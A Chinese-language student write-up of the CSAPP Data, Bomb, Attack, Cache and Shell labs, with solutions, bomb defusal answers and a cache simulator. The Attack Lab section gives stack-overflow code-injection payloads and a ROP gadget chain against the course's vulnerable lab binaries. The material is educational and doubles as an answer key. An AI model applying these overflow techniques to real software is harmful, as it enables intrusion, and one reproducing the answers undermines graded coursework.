


# CSAPP LAB

## Data Lab

### 概述

这个任务的目的是让我们更加熟悉整数和浮点数的位表示。

### 讲义介绍

唯一可以修改和上交的文件是bits.c文件，它包含十三个编程问题的框架。你的任务是仅用直线型代码完成整数问题（例如：没有循环或者是条件分支语句）和有限数量的C算术和逻辑运算符完成每一个函数框架。特别地，你只能使用接下来八个运算符：!，~，&，^，|，+，<<，>>。一些函数会进行进一步的限制。同时，不能使用超过8个字符的常量。

### 问题

#### bitXor

要求：只使用~和&实现异或运算

思路：利用0和1异或和与运算的真值表

实现：

```C
int bitXor(int x, int y) {
  int result=~(x&y)&(~(~x&~y));
  return result;
}
```

#### tmin

要求：最小的二进制补码数值

Legal ops: ! ~ & ^ | + << >>

Max ops: 4

思路：

补码的表示范围：-2^n ~ 2^n-1，所能表示的最小数为-2^n

在这里也就是0x80000000，但是由于限制了操作数范围0x00-0xff和操作运算符，我们使用左移运算符即可满足要求。

实现：

```C
int tmin(void) {
  return (1<<31);
}
```

#### isTmax

要求：判断x是否是最大的二进制补码数。若是，则返回1；反之，返回0。

Legal ops: ! ~ & ^ | +

Max ops: 10

思路：同tmin可知，补码所能表示的数是2^n-1

在这里也就是0x7FFFFFFF，利用0x7FFFFFFF+1=0X80000000的特点，先~((x+1)+x)结果应该为0，但同时发现0xFFFFFFFF也满足条件，接着计算!(~x)来区分两者即可。

实现：

```C
int isTmax(int x) {
  return !((~((x+1)+x))+!(~x));
}
```

#### allOddBits

要求：判断x是否满足所有的奇数位（0~31）都为1

Legal ops: ! ~ & ^ | + << >>

Max ops: 12

思路：限定了最多使用操作数的数量，所以不能无脑右移逐字节判断。这里借鉴别人的思路，觉得比较好，因为0与1或0都是0，为了保证奇数位上是1，我们不断地折半后进行与运算，如果最后一个奇数位是1，就能保证每一个奇数位上的数都是。

实现：

```C
int allOddBits(int x) {
  int tmp=x;
  tmp=tmp>>16&tmp;
  tmp=tmp>>8&tmp;
  tmp=tmp>>4&tmp;
  tmp=tmp>>2&tmp;
  return (tmp>>1)&1;
}
```

#### negate

要求：给出x的相反数-x

Legal ops: ! ~ & ^ | + << >>

Max ops: 5

思路：求补码形式的二进制数的相反数，取反+1即可。

实现：

```C
int negate(int x) {
  return (~x+1);
}
```

#### isAsciiDigit

要求：判断x是否是字符'0'-'9'的ASCII码值

Legal ops: ! ~ & ^ | + << >>

Max ops: 15

思路：判断x是否是0x30-0x3a，重点注意条件的逻辑关系：前16bit必须是3，后16bit是0xxx或者1000或者1001

实现：

```C
int isAsciiDigit(int x) {
  return !(((x>>4)^3)|!(!((x>>3)&1)|!((x&7)&(x&6))));
}
```

#### conditional

要求：函数实现的功能与条件运算符相同：x ? y : z

Legal ops: ! ~ & ^ | + << >>

Max ops: 16

思路：这道题没什么思路，借鉴网上的：利用变量flag代表其逻辑值（0或者1），再和对应返回的值进行与运算

实现：

```C
int conditional(int x, int y, int z) {
  int flag=(~!!x)+1;
  return (flag&y)|((~flag)&z);
}
```

#### isLessOrEqual

要求：判断 x≤y 是否成立

Legal ops: ! ~ & ^ | + << >>

Max ops: 24

思路：比较两个补码二进制数的大小，首先判断符号位是否相同，若不同且x为负数，则条件式一定成立。若符号位相同，此时若y-x≥0（≥0可以直接通过判断最高位为0实现），则条件式成立。

需要注意判断符号位是否相同时，应该使用逻辑运算（运算结果只有0和1），否则当变量是负数时，移位运算会在最高位补符号位，导致结果错误。

实现：

```C
int isLessOrEqual(int x, int y) {
  int sign=!(x>>31)^!(y>>31);
  int a=sign&(x>>31);
  int b = !sign & !((y+~x+1)>>31);
  return a|b;
}
```

#### logicalNeg

要求：利用除 ! 运算符之外的所有运算符实现 ! 运算符

Legal ops: ~ & ^ | + << >>

Max ops: 12

思路：只要某一bit上是1，则其逻辑值就是1，反之则为0

实现：

```C
int logicalNeg(int x) {
  x=(x>>16)|x;
  x=(x>>8)|x;
  x=(x>>4)|x;
  x=(x>>2)|x;
  x=(x>>1)|x;
  return ~x&1;
}
```

#### howManyBits

要求：给出能够表示x的二进制补码的最少需要的位数

Legal ops: ! ~ & ^ | + << >>

Max ops: 90

思路： 结合示例中给出的几个例子，特别是howManyBits(-1)=1，可以知道对于正数，高位连续的0不是必须的，对于负数，高位连续的1不是必须的，这一点可以通过二进制补码的符号扩展，对负数高位补1可以保持其值不变来进一步理解。同时，对于-1来说其符号位就是数值位，只需要用一位进行表示，于是思路是先判断x的符号，若是正数，则直接判断最高的1出现的位置，若是负数，则先取反，再判断最高的1出现的位置。其中，最高的1出现的位置通过二分法确定。

实现：

```c
int howManyBits(int x) {
  int sign=x>>31;
  x=(sign&~x)|(~sign&x);
  int b16,b8,b4,b2,b1,b0;
  b16=!!(x>>16)<<4;
  x=x>>b16;
  b8=!!(x>>8)<<3;
  x=x>>b8;
  b4=!!(x>>4)<<2;
  x=x>>b4;
  b2=!!(x>>2)<<1;
  x=x>>b2;
  b1=!!(x>>1);
  x=x>>b1;
  b0=x;
  return b16+b8+b4+b2+b1+b0+1;
}
```

对于浮点数类问题，你将实现一些常见的单精度浮点数操作。对于这些问题，可以使用标准的程序控制结构（条件语句、循环语句），可以同时使用int 和 unsigned 数据类型，包括任意无符号常量和有符号常量。不能使用union联合体结构，结构体或数组，不能使用浮点数类型、操作和常量。任何浮点操作数都将以无符号类型传递给函数，而任何返回的浮点值将是无符号类型。代码应执行实现指定浮点运算的位操作。

讲义中包含的程序fshow帮助你理解浮点数的结构，使用make命令编译fshow，可以使用fshow查看任意形式的浮点数：

```shell
unix> ./fshow 2080374784
Floating point value 2.658455992e+36
Bit Representation 0x7c000000, sign = 0, exponent = f8, fraction = 000000
Normalized. 1.0000000000 X 2ˆ(121)
```

也可以输入十六进制和浮点值，fshow可以解密它们的位结构。

前置知识：

计算机中采用IEEE 754表示浮点数，这里是32位单精度浮点数，格式如下：


特殊数：


#### floatScale2

要求：给出已知浮点数f的二倍2*f

思路：对于浮点数来说，*2是指数+1、尾数不变，由于IEEE754浮点数格式的限制，需要分类讨论几种情况：

- f 的 exp为0，若num=0，则值不变，否则直接符号位不变、除符号位之外左移一位（？）
- f 的 exp 全为1，返回原来的数值
- f 的 exp加1后变成255，则返回无穷大
- exp + 1，尾数部分不变

实现：

```C
unsigned floatScale2(unsigned uf) {
  int exp_mask=0x7f800000;
  int anti_exp_mask=0x007fffff;
  int sign=uf&(1<<31);
  int exp=(uf&exp_mask)>>23;
  int num=uf&anti_exp_mask;
  if(exp==0) {
    return (uf<<1)|sign;
  }
  else if(exp==255) return uf;
  else {
      exp++;
      if(exp==255) return exp_mask|sign;
      else return (exp<<23)|num|sign;
  }
}
```

#### floatFloat2Int

要求：返回浮点参数 f 的相应的 int 数表示

思路：首先得到浮点数 f 的符号位、指数和尾数部分，然后判断特殊情况：是否为0和是否溢出

实现：

```C
int floatFloat2Int(unsigned uf) {
  int sign=uf&(1<<31);
  int exp=((uf&0x7f800000)>>23)-127;
  int num=uf&0x7fffff;
  int result=(1<<23)|num;
  if(!(uf&0x7fffffff)) return 0;
  if(exp>31) return 0x80000000u;
  if(exp<0) return 0;
  if(exp>23) result=result<<(exp-23);
  else result=result>>(23-exp);
  if(!((result&(1<<31))^sign)) return result;
  else if(result&(1<<31)) return 0x80000000;
  else return ~result+1;
}
```

#### floatPower2

要求：对于任何32位整数x，返回等效于表达式2.0 ^ x 的位表示。返回的无符号值应具有与单精度浮点数2.0 ^ x相同的位表示形式。 如果结果太小而无法表示为分母，则返回0。如果结果太大，则返回+ INF。

思路：首先判断指数是否超过范围，若在可表示范围内，则2.0^x为指数为x+127，尾数为1.0000..0的单精度浮点数

实现：

```C
unsigned floatPower2(int x) {
    if(x<-126) return 0;
    if(x>=128) return 255<<23;
    return (x+127)<<23;
}
```

### 自动打分

打分文件：btest，dlc，driver.pl

#### btest

检查正确性

```shell
unix> make
unix> ./btest
```

#### dlc

检查是否有非法操作符，操作符数量过多、程序中有非直线型代码的情况

```shell
unix> ./dlc bits.c
```

#### driver.pl

计算总分

```shell
unix> ./driver.pl
```

#### 运行结果


## Bomb Lab

本实验的任务指导书比较简单，主要是通过向bomb程序进行特定的输入来绕过炸弹的爆炸，否则引爆炸弹，程序退出。主要使用的工具是gdb，objdump命令等，但是我第一反应直接拖入IDA分析反汇编伪代码了，所以分析起来难度降低了许多orz...

#### phase_1


要求输入字符串与指定字符串相同，即：`Border relations with Canada have never been better.`

#### phase_2


要求读入六个数，第一个数为1，随后每个数是前一个数的二倍

#### phase_3


要求输入两个数，其中第一个数≤7，第二个数取决于第一个数，必须是switch语句中的result的值，此问题答案不唯一

#### phase_4


要求fun4返回值和输入的第二个数同时为0，为了使fun4返回值result为0，可以使a1=v3，即输入的第一个数为7

#### phase_5


要求输入字符串长度为6，并且输入字符串的每一个字符的最后16bit的值与array_3449字符串中"flyers"字符串相应字符的下标值相同，查看.rodata段，可以看到array_3449字符串为"maduiersnfotvbyl"。于是找到"flyers"的相应下标，再去查看ASCII表即可，此问题答案不唯一。

#### phase_6

这一部分分析步骤比较多，首先要求输入六个数字，且应全部≤6，通过一个循环判断每个数字均不相同：


其次求每一个数的模为7的补数：


接着，把输入的六个数字对应到相应的node链表位置中去，并在栈上存储下相应的地址：


通过gdb调试可以看到node的结构就是普通的链表结构，包含一个int数值、链表序号和指向下一个节点的指针：


最后，把栈上存储的地址连接起来（物理位置相邻），同时要求对应链表顺序中的数值是递减的：


根据上面node结点的数据可以知道递减的顺序为：3 4 5 6 1 2

再取mod 7的补数：4 3 2 1 6 5

#### secret phase

等到所有的phase被拆解之后，我们输入的字符串数量为6，接下来会进入隐藏关卡部分：


首先会判断0x603870的内容，可以看到正好是phase_4输入字符串的位置，所以我们再phase_4输入的字符串后加上"DrEvil"即可进入隐藏关卡：


接着，要求我们输入的数字≤0x3E9，并且fun7()函数返回值必须是2：


跟踪后可以看到fun7()函数是一个向下递归函数：


其中n1是一个树节点结构，包含value和左右节点：


为了使该函数最后返回值为2，可以设计：最后一层递归返回值为0，向上一层为取右节点，则加0*2+1=1，再上一层取左节点，1×2=2，所以x<0x24，x>0x8，x=0x16，所以我们的输入为0x16=22

#### 运行结果

ans.txt（最后一行为空行）：

```
Border relations with Canada have never been better.
1 2 4 8 16 32
0 207 
7 0 DrEvil
YonUVW
4 3 2 1 6 5
22

```


## Attack Lab

讲义文件夹中包含以下文件：

- README.txt：介绍文件夹内容的文件
- ctarget：可进行code-injection攻击的可执行文件
- rtarget：可进行ROP攻击的可执行文件
- cookie.txt：在攻击中用作唯一标识符的8位十六进制代码 
- farm.c：用于ROP攻击的源代码
- hex2raw：用于生成攻击字符串

### Code Injection Attacks

#### phase 1

这一部分不需要我们注入新的代码，而是去执行一段已经存在的程序。getbuf()函数由test函数调用，源代码如下：

```C
1 void test()
2 {
3 int val;
4 val = getbuf();
5 printf("No exploit. Getbuf returned 0x%x\n", val);
6 }
```

在文件ctarget中，有一段touch1的代码如下：

```C
1 void touch1()
2 {
3 vlevel = 1; /* Part of validation protocol */
4 printf("Touch1!: You called touch1()\n");
5 validate(1);
6 exit(0);
7 }
```

我们的任务是让文件ctarget在getbuf()函数返回的时候去执行touch1()的代码。

首先我们看到getbuf()函数的栈空间大小为0x28:


再查看touch1()函数的地址：


于是我们只需把touch1()的函数地址填在ret的地址上，touch.txt文件如下：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```


#### phase 2

这一部分需要我们自己写一小段注入代码，在ctarget文件中touch2函数的C代码如下：

```C
1 void touch2(unsigned val)2 {
3 vlevel = 2; /* Part of validation protocol */
4 if (val == cookie) {
5 printf("Touch2!: You called touch2(0x%.8x)\n", val);
6 validate(2);
7 } else {
8 printf("Misfire: You called touch2(0x%.8x)\n", val);
9 fail(2);
10 }
11 exit(0);
12 }
```

我们的任务是让文件ctarget在getbuf()函数返回的时候去执行touch2()的代码。

这一部分思路是首先向栈中注入修改cookie的可执行二进制代码（函数第一个参数通过寄存器rdi传递）和返回到touch2()的代码，最后通过栈溢出覆盖返回地址到栈上。touch2.s如下：

```asm
movl $0x59b997fa,%edi
push $0x4017ec
ret
```

随后通过`objdump -d`命令查看可执行二进制代码：


touch2.txt如下：

```
bf fa 97 b9 59 68 ec 17 
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

执行结果：


#### phase 3

这一部分同样是代码注入攻击，但是传递字符串作为攻击。在ctarget文件中hexmatch和touch3函数的代码如下：

```C
1 /* Compare string to hex represention of unsigned value */
2 int hexmatch(unsigned val, char *sval)
3 {
4 char cbuf[110];
5 /* Make position of check string unpredictable */
6 char *s = cbuf + random() % 100;
7 sprintf(s, "%.8x", val);
8 return strncmp(sval, s, 9) == 0;
9 }
10
11 void touch3(char *sval)
12 {
13 vlevel = 3; /* Part of validation protocol */
14 if (hexmatch(cookie, sval)) {
15 printf("Touch3!: You called touch3(\"%s\")\n", sval);
16 validate(3);
17 } else {
18 printf("Misfire: You called touch3(\"%s\")\n", sval);
19 fail(3);
20 }
21 exit(0);
22 }
```

我们的任务是让文件ctarget在getbuf()函数返回的时候去执行touch3()的代码。

这一部分与上一一部分的主要区别点在于我们必须使用字符串作为参数进行传递，于是我们必须将cookie进行十六进制转字符串后传递字符串的首地址，这样我们我们必须在栈上布置cookie字符串。同时注意到，hexmatch()函数中会向在一定范围内随机的地址上覆盖cookie数据，为了避免我们正好覆盖到我们布置好的cookie字符串，我们把字符串写到返回地址高8位的地址上去。

touch3.s如下：

```asm
movl $0x5561dca8,%edi
push $0x4018fa
ret
```

得到相应的二进制代码写入touch3.txt中：

```
bf a8 dc 61 55 68 fa 18   <== 可执行代码
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00   <== 栈溢出覆盖ret为栈地址
35 39 62 39 39 37 66 61   <== cookie字符串
```

运行结果：



### Return-Oriented Programming 

#### phase 4

对于阶段4来说我们重复阶段2的攻击，但是必须使用farm.c文件中的gadget，可以使用以下指令类型组成的gadget，并且只能使用前8个x86-64寄存器（rax-rdi）：movq popq ret nop

movq、popq、movl、指令的机器码如下：


我们的任务是要让文件ctarget在getbuf()函数返回的时候去执行touch2()的代码，touch2()函数的执行需要通过rdi寄存器向其传递参数。通过`objdump -S rtarget >rtarget.s`命令查看反汇编代码。

首先考虑是否存在pop rdi的gadget，发现并没有，那么接着考虑通过两个连续的gadget达到相同的效果，例如：popq rax;mov rax,rdi;容易发现，在<addval_219>中存在这样的gadget：


其中机器码58 90 c3是pop rax; nop ; ret ; gadget，符合要求，在<addval_273>函数中，存在mov rax,rdi; ret; gadget的机器码：


于是，phase4.txt如下：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

运行结果：



#### phase 5

这一部分我们使用ROP攻击让文件ctarget在getbuf()函数返回的时候去执行touch3()的代码，touch3()函数的执行需要通过rdi寄存器传递cookie字符串。我们可以使用movl指令和andb、orb、cmpb、testb指令的gadget。

## Cache Lab

这个实验旨在使我们更好的理解高速缓冲存储器（Cache）对C程序性能产生的影响。本实验主要由两部分组成，第一部分需要我们实现一个200-300行的C语言程序，来模拟cache的行为。第二部分需要我们优化一个小型矩阵转置函数，用来最大程度地减少高速缓冲未命中数。

讲义目录的traces子目录包含参考跟踪文件的集合，用来评估第一部分中编写的cache的正确性。跟踪文件由Linux程序valgrind生成。例如，输入` linux> valgrind --log-fd=1 --tool=lackey -v --trace-mem=yes ls -l `会运行可执行程序`ls -l`，按照它们发生的顺序捕获其每个内存访问的痕迹，并在stdout上打印它们。Valgrind内存跟踪有如下形式：

```
I 0400d7d4,8
 M 0421c7f0,4
 L 04f6b868,8
 S 7ff0005c8,8
```

每一行代表一到两次内存访问。每一行的格式是：

```
[space]operation address,size
```

操作字段表示内存访问的类型：“ I”表示取指令，“ L”表示取数据，“ S”表示存数据，“ M”表示数据修改（即取数据后跟存数据）。每个“ I”之前都没有空格，每个“ M”，“ L”和“ S”之前总是有一个空格。 地址字段指定64位十六进制内存地址。 size字段指定操作访问的字节数。

### Part A：写一个Cache模拟器

在csim.c中编写一个cache模拟器，它将valgrind内存跟踪作为输入，在此跟踪上模拟cache的命中/未命中行为，并输出命中，未命中和替换行的总数。csim-ref是供参考的cache模拟器的二进制可执行文件，它可在valgrind跟踪文件上模拟具有任意大小和关联性的cache的行为。 它使用LRU（最近最少使用）替换策略选择替换哪个缓存行。供参考的模拟器有以下命令行参数：

```
Usage: ./csim-ref [-hv] -s <s> -E <E> -b <b> -t <tracefile>
```

-  -h: Optional help flag that prints usage info 
-  -v: Optional verbose flag that displays trace info 
-  -s \<s>:  组的索引位数 (S = 2^s 是组数) 
-  -E \<E>:  关联性（每组行数）
-  -b \<b>:  块的位数 (B = 2^b 是块的大小) 
-  -t : Name of the valgrind trace to replay

我们需要完善csim.c文件，使它在相同的命令行参数下产生与参考cache模拟器相同的输出。 该文件几乎完全为空，需要我们从头开始编写。

#### rules

- 没有warnings
- 必须对任意的s，E和b都正常，所以需要使用malloc函数为其数据结构分配存储空间
- 仅关注数据高速缓存的性能，所以忽略所有指令高速缓存访问（以“ I”开头的行），valgrind将“ I”放在第一列（前面不带空格），将“ M”，“ L”和“ S”放在第二列（前面带空格）
- 必须在主函数末尾调用函数printSummary，其中包含命中，未命中和替换行的总数
- 应假定内存访问已正确对齐，即单个内存访问永远不会越过块边界。因此可以忽略valgrind跟踪中的请求大小。

#### 评分标准

将使用不同的cache参数和跟踪来运行cache模拟器。 有8个测试用例，每个3分，最后一个用例除外，为6分：

```
linux> ./csim -s 1 -E 1 -b 1 -t traces/yi2.trace
linux> ./csim -s 4 -E 2 -b 4 -t traces/yi.trace
linux> ./csim -s 2 -E 1 -b 4 -t traces/dave.trace
linux> ./csim -s 2 -E 1 -b 3 -t traces/trans.trace
linux> ./csim -s 2 -E 2 -b 3 -t traces/trans.trace
linux> ./csim -s 2 -E 4 -b 3 -t traces/trans.trace
linux> ./csim -s 5 -E 1 -b 5 -t traces/trans.trace
linux> ./csim -s 5 -E 1 -b 5 -t traces/long.trace
```

可以使用供参考的cache模拟器csim-ref为每个测试用例获得正确的答案。在调试期间，使用-v选项详细记录每次命中和未命中。命中，未命中和替换数量各占该测试用例的1/3的分数。

实验提供了一个称为test-csim的自动打分程序，该程序可以在参考跟踪上测试cache模拟器的正确性。 在运行测试之前，请确保编译模拟器：

```
linux> make
linux> ./test-csim
```

#### hints

- 初始调试一些小跟踪，例如：traces/dave.trace

- 供参考的cache模拟器采用可选的-v参数，该参数详细输出，显示由于每次内存访问而发生的命中，未命中和替换。 

- 使用getopt()函数解析命令行参数，需要以下头文件：

  ```C
  #include <getopt.h>
  #include <stdlib.h>
  #include <unistd.h>
  ```

- 每个数据加载（L）或存储（S）操作最多可能导致一个cache未命中。 数据修改操作（M）被视为加载后再存储到同一地址。 因此，M操作可能导致两个cache命中，或者是一次未命中和一次命中外加一次可能的替换。

#### 前置知识

getopt()函数用来分析命令行参数，原型：

```
int getopt(int argc, char * const argv[], const char * optstring);
```

argc和argv是由main()传递的参数个数和内容，optstring是可选字符串，用来表示可以处理哪个选项以及哪个选项需要参数，如果选项字符串的字母后面跟着冒号，则表示该选项需要参数，变量optarg会指向这个额外参数。

#### 具体实现

根据csim-ref反汇编的结果实现（orz）：

```C
#include "cachelab.h"
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <math.h>
#include <errno.h>
#include <getopt.h>

int b=0,s=0,B=0,S=0;
int E=0, verbosity=0;
long long int lru_counter=1;
char* trace_file=NULL;
int hit_count=0,miss_count=0,eviction_count=0;

typedef long long unsigned mem_addr_t;
struct cache_line_t{
    int valid;
    mem_addr_t tag;
    unsigned int lru;
};
typedef struct cache_line_t* cache_set_t;
typedef cache_set_t* cache_t;
cache_t cache;
mem_addr_t set_index_mask=0;

void printUsage(char** argv){
    printf("Usage: %s [-hv] -s <num> -E <num> -b <num> -t <file>\n",*argv);
    puts("Options:");
    puts("  -h         Print this help message.");
    puts("  -v         Optional verbose flag.");
    puts("  -s <num>   Number of set index bits.");
    puts("  -E <num>   Number of lines per set.");
    puts("  -b <num>   Number of block offset bits.");
    puts("  -t <file>  Trace file.");
    puts("\nExamples:");
    printf("  linux>  %s -s 4 -E 1 -b 4 -t traces/yi.trace\n", *argv);
    printf("  linux>  %s -v -s 8 -E 2 -b 4 -t traces/yi.trace\n", *argv);
    exit(0);
}

void initCache()
{
    cache=(cache_t)malloc(sizeof(cache_set_t)*S);
    for(int i=0;i<S;i++){
        cache[i]=(cache_set_t)malloc(sizeof(struct cache_line_t)*E);
        for(int j=0;j<E;j++){
            cache[i][j].valid=0;
            cache[i][j].tag=0;
            cache[i][j].lru=0;
        }
    }
    set_index_mask=pow(2,s)-1;
}

void accessData(mem_addr_t addr)
{
    int i;
    int eviction_line=0;
    unsigned int eviction_lru=-1;
    mem_addr_t tag=addr>>(s+b);
    cache_set_t cache_set=cache[(addr>>b)&set_index_mask];
    for(i=0; ; i++)
    {
        if(i>=E)
        {
            ++miss_count;
            if(verbosity) printf("miss ");
            for(int ia=0;ia<E;++ia)
            {
                if(cache_set[ia].lru<eviction_lru)
                {
                    eviction_line=ia;
                    eviction_lru=cache_set[ia].lru;
                }
            }
            if(cache_set[eviction_line].valid)
            {
                ++eviction_count;
                if(verbosity) printf("eviction ");
            }
            cache_set[eviction_line].valid=1;
            cache_set[eviction_line].tag=tag;
            cache_set[eviction_line].lru=++lru_counter;
            return ;
        }
        if(cache_set[i].tag==tag && cache_set[i].valid) break;
    }
    ++hit_count;
    if(verbosity) printf("hit ");
    cache_set[i].lru=lru_counter++;
}

void replayTrace(char* trace_file){

    char buf[1000];
    FILE* trace_fp=fopen(trace_file,"r");
    if(!trace_fp){
        int* err_line=__errno_location();
        char* err_str=strerror(*err_line);
        fprintf(stderr,"%s: %s\n",trace_file,err_str);
        exit(1);
    }
    while(fgets(buf,1000,trace_fp))
    {
        unsigned int len=0;
        mem_addr_t addr=0;
        if(buf[1]=='S'||buf[1]=='L'||buf[1]=='M')
        {
            sscanf(&buf[3],"%llx,%u",&addr,&len);
            if(verbosity) printf("%c %llx,%u ",buf[1],addr,len);
            accessData(addr);
            if(buf[1]=='M') accessData(addr);
            if(verbosity) putchar('\n');
        }
    }
    fclose(trace_fp);
}

void freeCache(){
    for(int i=0;i<S;i++){
        free(cache[i]);
    }
    free(cache);
}

int main(int argc, char** argv)
{
    char c;
    while((c = getopt(argc, argv, "s:E:b:t:vh")) != -1)
    {
        switch(c){
            case 'E':
                E = atoi(optarg);
                break;
            case 'b':
                b = atoi(optarg);
                break;
            case 'h':
                printUsage(argv);
                return 0;
            case 's':
                s=atoi(optarg);
                break;
            case 't':
                trace_file=optarg;
                break;
            case 'v':
                verbosity=1;
                break;
            default:
                printUsage(argv);
                return 0;
        }
    }
    if(!s||!E||!b||!trace_file)
    {
        printf("%s: Missing required command line argument\n",*argv);
        printUsage(argv);
    }
    S=pow(2,s);
    B=pow(2,b);
    initCache();
    replayTrace(trace_file);
    freeCache();
    printSummary(hit_count,miss_count,eviction_count);
    //printSummary(0,0,0);
    return 0;
}
```


## Shell Lab

### 实验概述

这个实验能够让我们更好的理解进程控制和信号通知。

tsh.c文件中包含了简单Unix shell的功能型框架，并且已经实现了部分函数，我们的任务是继续完成以下函数：

- eval：解析和解释命令行的主例程
- builtin_cmd：识别并解释内置命令：quit\fg\bg和job
- do_bgfg ：实现bg和fg内置命令
- waitfg：等待前台作业的完成
- sigchld_handler：捕捉SIGCHILD信号
- sigint_handler：捕捉SIGINT（ctrl-c）信号
- sigtstp_handler：捕捉SIGTSTP（ctrl-z）信号

每次修改tsh.c文件后，需要重新使用make命令进行编译，使用`./tsh`命令执行自己的shell。

### Unix Shell概述

Shell是一个交互式命令行解释器，它代表用户运行程序。 Shell反复打印提示，在stdin上等待命令行，然后按照命令行内容的指示执行某些操作。命令行是由空格分隔的ASCII文本单词序列。命令行中的第一个单词是内置命令的名称或可执行文件的路径名。其余的单词是命令行参数。如果第一个单词是内置命令，则外壳程序将在当前进程中立即执行该命令。否则，假定该单词为可执行程序的路径名。在这种情况下，shell会派生一个子进程，然后在该子进程的上下文中加载并运行该程序。由于解释单个命令行而创建的子进程统称为作业。通常，一个作业可以包含多个通过Unix管道连接的子进程。如果命令行以“＆”号结尾，则作业在后台运行，这意味着外壳程序在打印提示并等待下一个命令行之前，不会等待作业终止。否则，作业将在前台运行，这意味着外壳程序在等待下一个命令行之前等待作业终止。因此，在任何时间点，前台最多只能运行一项作业。但是，可以在后台运行任意数量的作业。
例如，输入命令行`tsh> jobs`使shell执行内置命令jobs。输入` tsh> /bin/ls -l -d `会在前台运行ls程序。按照规定，shell确保程序开始执行主函数` int main(int argc, char *argv[]) `时，argc和argv参数有以下值：

-  argc == 3 
-  argv[0] == "/bin/ls" 
-  argv[1]== "-l"
-  argv[2]== "-d"

输入命令` tsh> /bin/ls -l -d & `会使ls程序在后台运行。

Unix shell支持作业控制的概念，该概念允许用户在后台和前台之间来回移动作业，并更改作业中进程的进程状态（运行，停止或终止）。 键入ctrl-c会使SIGINT信号传递到前台作业中的每个进程。 SIGINT的默认操作是终止该过程。 同样，键入ctrl-z会使SIGTSTP信号传递到前台作业中的每个进程。 SIGTSTP的默认操作是将进程置于停止状态，该进程一直保持到收到SIGCONT信号将其唤醒为止。 Unix shell还提供了各种支持作业控制的内置命令。 例如：

- jobs：列出正在运行和已停止的后台作业
- bg <job>：将已停止的后台作业更改为正在运行的后台作业
- fg <job>：将已停止或正在运行的后台进程更改为在前台运行
- kill <job>：终止一个作业

### tsh规范

- 提示为字符串"tsh> "
- 用户键入的命令行应由名称和零个或多个参数组成，所有参数均由一个或多个空格分隔。如果name是内置命令，则tsh应该立即处理它并等待下一个命令行。否则，tsh应该假定名称是可执行文件的路径，该文件将在初始子进程的上下文中加载并运行（在这种情况下，作业一词是指此初始子流程）
- tsh不需要支持管道（|）或I / O重定向（<和>）。
- 输入ctrl-c（ctrl-z）导致SIGINT（SIGTSTP）信号发送到当前前台作业，以及该作业的任何后代（例如，它派生的任何子进程）。如果没有前台作业，则信号没有作用
- 如果命令行以＆结束，则tsh应该在后台运行作业。否则，它将在前台运行该作业。
- 每个作业都可以由进程ID（PID）或作业ID（JID）标识，该ID是tsh分配的正整数。 JID应在命令行上以前缀“％”表示。例如，“％5” 表示JID 5，“ 5”表示PID5。（我们为您提供了处理作业列表所需的所有例程。）
- tsh应该支持以下内置命令：
  - quit命令终止shell
  - jobs命令列出所有的后台作业
  - bg \<job>命令通过向其发送SIGCONT信号来重新启动\<job>，然后在后台运行它。 \<job>参数可以是PID或JID
  - fg \<job>命令通过向其发送SIGCONT信号来重新启动\<job>，然后在前台运行它。 \<job>参数可以是PID或JID
- tsh应该收回其所有僵尸子进程， 如果任何作业由于接收到未捕获到的信号而终止，则tsh应该识别此事件并打印一条消息，其中包含该作业的PID和有问题的信号的描述

### check your work

- tshref文件是Shell的参考，运行该程序可以知道shell应如何操作。tsh程序应与参考解决方案有相同的输出（当然，PID除外，其运行之间会发生变化）。

-  sdriver.pl程序将shell作为子进程执行，按照trace文件的指示向其发送命令和信号，并捕获并显示shell的输出。使用-h参数找出sdriver.pl的用法：

  ```shell
  unix> ./sdriver.pl -h
  Usage: sdriver.pl [-hv] -t <trace> -s <shellprog> -a <args>
  Options:
  -h Print this message
  -v Be more verbose
  -t <trace> Trace file
  -s <shell> Shell program to test
  -a <args> Shell arguments
  -g Generate output for autograder
  ```

- 16个跟踪文件（trace {01-16} .txt），与shell驱动程序结合使用以测试shell的正确性。 编号较低的trace文件执行非常简单的测试，编号较高的trace文件进行更复杂的测试。可以使用trace01.txt在shell程序上运行shell driver：` unix> ./sdriver.pl -t trace01.txt -s ./tsh -a "-p" `（`-a "-p"`参数告诉shell不要发出提示），或者` unix> make test01  `。同样的，如果要在参考shell上运行shell driver来比较运行结果，可以：` unix> ./sdriver.pl -t trace01.txt -s ./tshref -a "-p" `或者` unix> make rtest01 `

- tshref.out提供了所有参考解决方案的输出。trace文件生成的输出与以交互方式运行外壳程序所获得的输出相同（除了标识trace的初始注释之外）。 

### Hints

- CSAPP 第八章 异常控制流
- 利用trace文件，从trace01.txt开始，确保tsh程序产生与tshref程序相同的输出。 然后继续跟踪文件
